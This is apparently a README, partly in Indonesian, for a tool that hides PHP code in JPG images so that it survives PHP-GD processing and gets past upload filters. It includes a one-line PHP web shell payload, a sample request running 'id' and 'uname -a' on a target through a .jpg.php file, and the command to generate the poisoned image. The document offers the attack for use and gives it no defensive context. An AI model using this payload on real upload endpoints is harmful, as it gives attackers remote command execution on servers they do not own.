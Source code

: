 # Bypass PHP-GD RCE
#### Bypassing image uploader use PHP-GD
#### Bypassing Via Injecting RCE Code In Image 

## Ubah Payload/Kode yang ingin di inject ke gambar di LINE 8

```
$miniPayload = 'taruh payloadmu disini';
```
#### contoh payload yang dipake :

```
$miniPayload = '<?=`$_GET[0]`?>';
as
vuln.com/rce.jpg.php?0=id;uname -a
```
## How ?
```
php gd.php sample.jpg
```
#### jika sukses, maka ada file baru bernama payload_sample.jpg

# JPG ONLY !!!
